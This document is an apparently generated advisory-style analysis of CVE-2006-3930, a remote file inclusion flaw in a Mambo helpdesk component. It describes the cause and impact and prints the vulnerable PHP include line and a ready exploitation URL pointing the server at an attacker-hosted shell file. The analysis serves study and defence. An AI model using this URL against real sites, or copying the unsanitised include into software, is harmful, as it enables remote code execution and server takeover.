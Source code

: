 Based on the provided content, here's an analysis of the vulnerability described:

**CVE ID:** CVE-2006-3930

**Root Cause of Vulnerability:**
The vulnerability is a Remote File Inclusion (RFI) issue. The `com_a6mambohelpdesk` component in Mambo is vulnerable because it includes a file using a variable (`$mosConfig_live_site`) that can be controlled by an attacker.

**Weaknesses/Vulnerabilities Present:**
- **Remote File Inclusion (RFI):** The application includes a file specified by the `mosConfig_live_site` parameter without proper sanitization, allowing an attacker to include a remote file from a malicious server.

**Impact of Exploitation:**
- **Arbitrary Code Execution:** By including a remote file containing malicious PHP code, an attacker can execute arbitrary code on the server running the vulnerable Mambo component.
- **Complete System Compromise:** Depending on the permissions of the web server and the included file's content, this could lead to a full system compromise.

**Attack Vectors:**
- **HTTP GET Request:** The vulnerability is triggered via a crafted HTTP GET request to the `admin.a6mambohelpdesk.php` script, by modifying the `mosConfig_live_site` parameter.

**Required Attacker Capabilities/Position:**
- **Network Access:** The attacker needs network access to the server hosting the vulnerable application.
- **No Authentication Required**: The vulnerability can be exploited without prior authentication.
- **Knowledge of the target**: The attacker needs to know the path to the vulnerable component to exploit the vulnerability.

**Technical Details:**

The exploit-db entry provides the following key details:
- Vulnerable application: `a6mambohelpdesk Mambo Component <= 18RC1`
- Vulnerable file: `admin.a6mambohelpdesk.php`
- The vulnerable code snippet:
```php
<?php
include("$mosConfig_live_site/components/com_a6mambohelpdesk/about.html" );
?>
```
- The exploitation URL:
`http://www.site.com/administrator/components/com_a6mambohelpdesk/admin.a6mambohelpdesk.php?mosConfig_live_site=http://shell.txt`

The attacker replaces `http://shell.txt` with the URL of a file they control which contains malicious PHP code.

**Summary:**
The `com_a6mambohelpdesk` component is vulnerable to Remote File Inclusion, allowing a remote attacker to inject and execute arbitrary code on the server by manipulating the `mosConfig_live_site` parameter. This vulnerability does not require authentication and could result in full system compromise.